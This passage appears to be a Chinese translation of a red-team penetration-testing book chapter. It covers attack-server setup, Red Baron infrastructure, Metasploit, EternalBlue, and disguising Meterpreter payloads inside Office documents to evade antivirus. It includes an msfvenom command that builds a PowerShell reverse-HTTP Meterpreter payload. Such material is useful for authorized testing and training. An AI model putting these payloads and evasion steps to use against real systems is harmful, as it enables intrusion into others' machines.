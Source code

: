如果我们查看我们的攻击者 VPS，就可以看到安装在我们的机器上的所有工具。如果我们想要启动 Metasploit，我们可以输入:*msfconsole*。<br>
![](../images/chapter_1/1-4.PNG)<br>
图: 安装在 /pentest 文件夹下的所有工具

我仍然建议建立强大的 IPTables 规则。因为这将是你的攻击服务器，所以最好限制 SSH 身份验证可以从何处发起， Empire/Meterpreter/Cobalt Strike的 payload 可以从何处发起，以及你所支持的任何钓鱼页面。

如果你还记得在2016年末，有人发现了未经身份验证的远程代码执行(RCE) ( https://blog.cobaltstrike.com/2016/09/28/cobalt-strike-rce-active-exploitation-reported/ )。你肯定不希望客户数据受到攻击服务器的损害。

我曾经看到一些红队在 AWS 中，使用 Docker 运行 Kali Linux (或者至少是 Metasploit) (参考: http://bit.ly/2qz2vN9 )。在我看来，虽然创建你自己的系统怎么样都可以。但是更好的选择是创建一个高效且可重复的流程来部署多台机器。使用 Lightsail 的 最大好处是一旦你将你的机器配置为你的首选项，你就可以对一台机器进行快照，并部署使用该镜像的多个全新实例。

如果你想让你的环境更上一层楼，看看 Coalfire 研究所的团队。他们构建了自定义模块来为你完成所有的艰苦工作和自动化。[Red Baron](https://github.com/Coalfire-Research/Red-Baron) 是 Terraform 的一组模块和自定义/第三方提供者，它可以为红队自动创建弹性、一次性、安全和灵活的基础设施。无论你想要构建一个钓鱼服务器，Cobalt Strike 基础设施，或创建 DNS C2 服务器，你都可以用 Terraform 做到这一切。

查看 https://github.com/Coalfire-Research/Red-Baron 并查看所有不同的模块以便快速构建你自己的基础架构。

## 红队的核心工具 
红队可能会使用很多工具，但是让我们来讨论些最核心的工具。请记住，作为一个红队成员，我们的目的不是破坏环境(虽然这是最有趣的)，而是要复制现实世界的攻击，以查看客户是否受到保护，并可以在很短的时间内检测到攻击。在前面的章节中，我们了解了如何从其他 APT 组织那里复制攻击者的概要文件和工具集，所以让我们回顾一下一些最常见的红队工具。

### Metasploit 框架
本书不会像前几本书那样深入探讨 Metasploit。尽管 [Metasploit 框架](https://github.com/rapid7/metasploit-framework/commits/master)最初是从 2003 年开发的，但它现在仍然是一个非常棒的工具。这是由于最初的开发者 H.D. Moore 和非常活跃的社区为它提供持续支持。这个社区驱动的框架，似乎每天更新，拥有所有最新的公开漏洞的利用、后渗透利用模块、辅助模块等等。

对于红队项目，我们可能使用 Metasploit 通过[MS17-010永恒之蓝漏洞](http://bit.ly/2H2PTsI)危害内部系统，以获得我们的第一个内网 shell,或者我们可能使用 Metasploit 为我们的社会工程攻击生成一个 Meterpreter payload。 

在后面的章节中，我将向你展示如何重新编译你的 Metasploit payload 并绕过杀毒软件和网络监控。

#### 混淆 Meterpreter 的 Payload
如果我们正在针对目标进行一些社工尝试，我们可能会使用 Word 或 Excel 文档作为我们的 payload（攻击载荷）的载体。 但是，一个潜在的问题是我们可能无法包含 Meterpreter 的 payload 的二进制文件或让目标机器从 Web 下载我们的 payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。 所以，这里给出一个简单的解决方案，使用 PowerShell 进行模糊处理：

```shell
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们甚至可以将混淆提升到新的水平，并使用 [Unicorn](https://github.com/trustedsec/unicorn) 等工具生成更多模糊的基于 PowerShell 的 Meterpreter payload，我们将在本书中详细介绍这些混淆器。

![](../images/chapter_1/1-5.PNG)
